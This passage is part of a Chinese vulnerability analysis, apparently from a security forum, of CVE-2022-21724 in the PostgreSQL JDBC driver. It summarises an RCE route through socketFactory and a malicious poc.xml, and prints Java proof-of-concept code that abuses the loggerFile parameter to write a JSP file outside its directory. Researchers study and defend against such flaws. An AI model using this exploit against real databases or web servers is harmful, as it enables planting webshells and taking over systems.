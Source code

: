 思路总结
----

造成代码执行原理较为简单，通过存在漏洞的`postgresql`数据库`JDBC`驱动，构造`socketFactory`相关参数利用支持解析并加载xml的类进行实例化之后去解析咱们恶意的`poc.xml`，以实现RCE

测试远程利用
------

构建httpserver服务端以接受poc传参，效果如下图

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-a9334eba27c617643a23e05cb8f80bd7806de973.png)

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-48be387669f7cdfaa056edfc7ed59696624de5ad.png)

0x02 任意文件写入
===========

影响版本
----

根据NVD报道：

- 42.3.x &lt; 42.3.3
- 42.1.x

漏洞分析
----

pom.xml可直接利用上面RCE的依赖  
poc验证代码如下：

```java
import java.sql.DriverManager;

public class cve_2022_21724_filewrite {
    public static void main(String[]args)throws Exception{
        String loggerLevel="DEBUG";
        String loggerFile="../hack.jsp";
        String shellContent="<%25test;%25>";

        String dbUrl = "jdbc:postgresql:///?loggerLevel="+loggerLevel+"&loggerFile="+loggerFile+"&"+shellContent;
        System.out.println(dbUrl);
        DriverManager.getConnection(dbUrl);
    }
}
```

断点分析还是先来到`org.postgresql#connect`方法中的`Connection con = aDriver.driver.connect(url, info);`即`org.postgresql.Driver#connect`开始，将提取出传参内容带入到`setupLoggerFromProperties`方法中

![](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-f79da910e084650962478b4da80cd78f51e8e90b.png)

持续跟进该方法，提取判断出`loggerLevel`为`DEBUG`，`loggerFile`为我们指定的文件名，以创建一个临时文件，准备将日志信息写入到该文件
